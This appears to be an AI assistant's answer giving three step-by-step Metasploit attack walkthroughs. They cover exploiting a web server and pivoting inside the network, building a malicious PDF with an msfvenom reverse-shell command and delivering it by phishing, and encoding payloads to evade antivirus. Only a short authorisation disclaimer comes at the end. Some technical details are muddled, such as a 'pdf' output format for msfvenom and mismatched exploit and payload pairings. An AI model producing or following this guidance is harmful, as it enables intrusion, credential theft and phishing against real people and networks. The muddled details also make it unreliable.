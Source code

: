 # Sophisticated Metasploit Examples

## Sophisticated Metasploit Examples
**Example 1: Exploiting a Web Server and Pivoting to an Internal Network**

This example involves a multi-stage attack that exploits a web server vulnerability, uses Meterpreter for pivoting, and ultimately targets a system on an internal network.

1. **Reconnaissance:** Begin by gathering information about the target organisation and its web server using techniques like DNS enumeration, open-source intelligence gathering, and website analysis \[1, 2]. Identify potential web server vulnerabilities like outdated software, misconfigured settings, or known exploits \[3].
2. **Web Server Exploitation:** Select a suitable Metasploit exploit based on the identified web server vulnerability. For example, if the server uses a vulnerable version of Apache, use an exploit like exploit/multi/http/apache\_mod\_cgi\_bash\_env. Configure the exploit with the target IP address and any other required options \[4-6]. Choose a Meterpreter payload, like windows/meterpreter/reverse\_tcp, to gain a sophisticated shell on the compromised web server \[7, 8].
3. **Pivoting:** Once you obtain a Meterpreter session on the web server, use the route command to add a route to the internal network through the compromised host \[9-11]. You can use modules like post/windows/gather/arp\_scanner to scan the internal network and discover additional targets \[12, 13].
4. **Internal System Exploitation:** After identifying a vulnerable system on the internal network, select a suitable exploit based on the operating system and any known vulnerabilities. For example, use exploit/windows/smb/psexec for a Windows system with weak credentials. Configure the exploit with the target IP address and any required credentials or hashes. Choose a Meterpreter payload for a more sophisticated shell on the internal system \[14-17].
5. **Post-Exploitation:** Utilise Meterpreter's extensive capabilities on the compromised internal system. Gather system information with sysinfo, escalate privileges, dump password hashes with hashdump, or establish persistence using techniques like creating a backdoor or adding a user \[18, 19].

**Example 2: Client-Side Attack with a Malicious PDF**

This example demonstrates a client-side attack using a specially crafted PDF file to exploit a vulnerability in a PDF reader application.

1. **Payload Creation:** Utilise msfvenom to generate a malicious PDF file containing a Meterpreter payload. Use a command like:
2. msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\[Your IP Address] LPORT=4444 -f pdf > malicious.pdf
3. This command will create a PDF file named malicious.pdf with a reverse Meterpreter payload that connects back to your IP address on port 4444 \[20-24].
4. **Delivery:** Deliver the malicious PDF file to the target user. This can be achieved through social engineering techniques like phishing emails with a compelling subject line and a link to the file, or by hosting the file on a compromised website.
5. **Exploitation:** When the target user opens the malicious PDF, the embedded exploit will trigger, exploiting a vulnerability in the PDF reader application. The Meterpreter payload will be executed, establishing a connection back to your attacking machine.
6. **Post-Exploitation:** With a Meterpreter session established, you can perform various post-exploitation activities like escalating privileges, executing commands, stealing sensitive data, or pivoting to other systems within the target's network.

**Example 3: Bypassing Antivirus with Encoders**

This example showcases how to use Metasploit's encoding capabilities to evade antivirus detection and successfully deliver a payload.

1. **Exploit Selection:** Choose an exploit that suits the target system's vulnerabilities. For instance, if the target uses a vulnerable version of Samba, you might use exploit/multi/samba/usermap\_script.
2. **Payload Encoding:** Before selecting a payload, use the encoders command in msfconsole to view available encoders. Choose an encoder that is known for its ability to bypass antivirus solutions. Examples include x86/shikata\_ga\_nai, cmd/powershell\_base64, or x86/fnstenv\_mov.
3. msf exploit(exploit/multi/samba/usermap\_script) > set ENCODER x86/shikata\_ga\_nai
4. **Payload Selection and Configuration:** Select your desired payload, for example, windows/meterpreter/reverse\_tcp. Configure the payload with the appropriate options like LHOST and LPORT.
5. **Exploitation:** Run the exploit. The chosen encoder will obfuscate the payload, potentially bypassing antivirus checks and increasing the chances of a successful attack.

**Important Considerations**

- These examples provide a starting point for understanding sophisticated Metasploit attacks. You can further explore different exploit modules, payloads, and techniques by researching specific vulnerabilities, studying Metasploit documentation, and experimenting in a controlled environment.
- It's crucial to remember that using Metasploit against systems without proper authorisation is illegal and unethical. Always conduct your experiments in a controlled and ethical environment.

Let me know if you need further clarification or assistance with any specific aspect of these examples.
